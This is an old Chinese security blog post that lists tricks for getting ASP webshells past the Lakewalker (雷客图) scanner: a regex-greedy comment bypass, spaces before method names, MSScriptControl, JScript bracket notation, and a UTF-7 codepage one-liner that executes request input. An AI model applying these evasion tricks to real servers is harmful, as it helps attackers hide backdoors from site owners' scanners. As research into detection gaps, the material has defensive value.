 Title: 几个雷客图ASP站长安全助手的小问题
Slug: lake2_bug
Date: 2009-10-08 09:32:35
Tags: Security, imported blog, 
Category: Security
Author: ir193

这是一篇导入的blog，其中的内容大概是09年暑假积累的。写作时间是10月20日，应该是刚刚开学时候去主楼后面的机房写的。

从电脑里翻出来这个真是百感交集啊，现在来看这篇文章，这些小trick确实是原创的，后来也没有再别处听说过。当然这与asp的没落、我不再关注web安全有着不小关系。

大学四年，安全方面的技术确实没有积累，是根本没有看。而现在又想转码，似乎绕了一个圈子又回到了开始。而一圈走下来却发现自己没有留下什么。


### 以下是导入的正文

----

雷客图[http://down.chinaz.com/soft/17030.htm]是大侠lake2开发的基于ASP进行查杀木马、维护网站安全的程序。

雷客图采用正则表达式检查关键字的方法查找ASP木马，重点检查了一些关键组件的方法，如：wscript.shell的exec，fso的OpenTextFile。在网上能见到的ASP查杀工具中，雷客图的查杀率和误杀率都相当突出。但由于ASP脚本语言的特性，还是有一些方法突破雷客图的。本人水平不高，不过是发现几个小问题，写下来请各位高手指正。

1. 突破CreateObject组件检查（针对于老版本）

CreateObject是所有ASP木马不可避免的函数，几乎所有功能都必须由其开始。老版本的雷客图检查了是否包含`&`或`+`以及是否为变量等，防止使用字符串拼接躲过检查。

满足以下条件

* 括号内没有引号

* 括号内出现`&`或者`+`

时即判断为有问题。

但由于vbs的正则表达式默认采用贪婪模式，即匹配最长的满足条件的字符串。这样，假如在CreateObject一行的末尾，又出现一个括号的话，正则表达式将匹配到最后一个括号。为了不产生语法错误，可以把括号放在注释中。像这样：

	<!-- lang:vbs -->
	Function CreateObj(str)
		Set CreateObj = server.CreateObject(str)      '"""")
	End Function

我们以变量作为CreateObject的参数，同时在括号后加上注释。以满足有引号的条件。最后加上括号使表达式匹配到最后一个括号。这样就绕过了检查。

而对于新版本（1.6 sp1），直接用字符串拼接就行了。


2. 空格躲过特征方法检查

除了一些比较危险的组件，雷客图还检查了一些组件的方法。由于组件的方法不能像字符串变量一样拼接，绕过的方法受到限制。

但雷客图的特征码中，为了保证查杀的准确性，都只查杀以`.`开头的关键字。如`.ExecuteStatement`

问题是我们可以在方法前加一个空格，还是可以运行的

	<!-- lang:vbs -->
	wshl. exec strCmd

这个是一个很大的突破，几乎使asp木马彻底绕过了检查。

3. MSScriptControl执行任意语句

雷客图没有查杀MSScriptControl组件的关键字，而这个可以执行任意语句。

这个网上很多了，使用MSScriptControl执行代码，就可以使用`&`或`+`。虽然1.6sp2版本检查了这个组件，但是我们还是可以使用上面的方法躲过查杀。

4. 用Jscript躲过查杀

雷客图的很多特征码是针对VBS的，但ASP也可以用Jscript写。Jscript由于可以自由的换行、插入空格，比VBS更灵活。

比如调用Wscript.shell的exec可以有两种形式：

	<!-- lang:vbs -->
	owshl.exec
	owshl["exec"]

第二种的方法名是字符串形式，所以可以用`+`拼接（不能用`&`）。

5. 万能加密工具

以MSScriptControl主要方法可以写一个万能加密工具，用来躲过雷客图的查杀。但是还没有写。

6. 使用字符集来躲过查杀

这个是JNC大牛说的

	<%@ codepage=65000%>%e+x-x+x-e+x-c+x-u+x-t+x-e+x-(+x-r+x-e+x-q+x-u+x-e+x-s+x-t+x-(+x-+ACI-c+ACI)+x-)+x-%>

雷客图总的来说是一个相当优秀的ASP木马查杀工具，其中有很多东西值得学习。我小菜不敢挑战lake2大侠，无非是在被忽视的地方小打小闹一下。最后，希望lake2多开发一些工具，多公布几个漏洞。

感觉asp真的过时了，看来我小菜要不断进步才能赶上时代的步伐啊~~~~
